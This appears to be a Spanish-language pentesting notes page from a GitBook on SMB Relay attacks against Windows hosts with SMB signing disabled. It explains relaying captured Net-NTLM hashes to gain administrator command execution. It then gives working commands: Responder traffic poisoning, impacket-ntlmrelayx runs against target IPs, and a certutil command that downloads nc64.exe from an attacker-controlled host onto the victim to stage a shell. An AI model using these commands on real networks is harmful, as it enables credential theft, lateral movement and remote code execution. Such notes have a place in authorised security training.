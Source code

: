 ```yaml
---
description: SMB Signing -> False
---
```


# SMB Relay

### Descripción&#x20;

Este ataque consiste en capturar los hashes Net-NTLM de un cliente, reenviarlos a un segundo cliente, permitiendonos actuar como si fuesemos el primer cliente. Debido a que el primer cliente es un usuario administrador, podremos ejecutar comandos o ganar una shell en el segundo cliente.

Para poder hacer el relaying el cliente del que capturemos los hashes Net-NTLM deberá pertenecer al grupo local de administradores sobre el cual vamos a querer ejecutar comandos y que el SMB signing esté desactivado.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**/usr/share/responder/Responder.Conf:**

![](<../../../.gitbook/assets/image (27).png>)



### Explotación

Envenenar el tráfico con responder:

```bash
python Responder.py -I eth0 -dw 
```

Empezar el ataque con ntlmrelayx

<pre><code># con elbinario de impacket que viene en kali
impacket-ntlmrelayx -t (ip-target) -smb2support # el -smb2support es para versiones posteriores a WindowsServer 2008
<strong>impacket-ntlmrelayx -t 192.168.0.110 -smb2support
</strong>impacket-ntlmrelayx -tf targets.txt -smb2support

# ejecutar comandos
impacket-ntlmrelayx -t 192.168.0.110 -c "certutil.exe -f -urlcache -split http://192.168.0.108:9090/nc64.exe C:\\Windows\\Temp\\nc.exe" -smb2support

</code></pre>

Cliente 1 con privilegios de administrador en el cliente 2:

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

Hashes dumpeados con ntlmrelayx

<figure><img src="../../../.gitbook/assets/image (113).png" alt=""><figcaption></figcaption></figure>

